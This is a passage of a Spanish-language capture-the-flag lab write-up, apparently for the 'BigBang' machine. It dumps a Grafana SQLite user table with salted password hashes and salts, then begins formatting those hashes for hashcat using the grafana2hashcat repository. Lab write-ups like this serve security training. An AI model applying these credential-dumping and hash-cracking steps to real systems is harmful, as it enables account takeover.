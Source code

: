 ```bash 
dashboard_tag                tag                        
dashboard_version            team                       
data_keys                    team_member                
data_source                  team_role                  
entity_event                 temp_user                  
file                         test_data                  
file_meta                    user                       
folder                       user_auth                  
kv_store                     user_auth_token            
library_element              user_role
```

La de `users` es la más interesante: 
```bash 
sqlite> .headers on
sqlite> .mode columns
sqlite> select * from user; 
id  version  login      email                name           password                                                      salt        rands       company  org_id  is_admin  email_verified  theme  created              updated              help_flags1  last_seen_at         is_disabled  is_service_account  uid           
--  -------  ---------  -------------------  -------------  ------------------------------------------------------------  ----------  ----------  -------  ------  --------  --------------  -----  -------------------  -------------------  -----------  -------------------  -----------  ------------------  --------------
1   0        admin      admin@localhost                     441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9b  CFn7zMsQpf  CgJll8Bmss           1       1         0                      2024-06-05 16:14:51  2024-06-05 16:16:02  0            2024-06-05 16:16:02  0            0                                 
                                                            a6bd47d70edb7421b05d9706ba6147cb71973a34                                                                                                                                                                                                                           

2   0        developer  ghubble@bigbang.htb  George Hubble  7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c  4umebBJucv  0Whk1JNfa3           1       0         0                      2024-06-05 16:17:32  2025-01-20 16:27:39  0            2025-01-20 16:27:19  0            0                   ednvnl5nqhse8d
                                                            59db93577b12201c0151256375d6f883f1b8d960
```

Son contraseñas salteadas, y que herramientas como haschcat no soportan este formato que maneja grafana, en el siguiente [repo](https://github.com/iamaldi/grafana2hashcat)

Así que nos clonamos el repo,copiamos los hashes obtenidos: 
```bash
┌──(kali㉿kali)-[~/labs-hack/bigbang/grafana2hashcat]
└─$ cat hashes
441a715bd788e928170be7954b17cb19de835a2dedfdece8c65327cb1d9ba6bd47d70edb7421b05d9706ba6147cb71973a34,CFn7zMsQpf
7e8018a4210efbaeb12f0115580a476fe8f98a4f9bada2720e652654860c59db93577b12201c0151256375d6f883f1b8d960,4umebBJucv
```
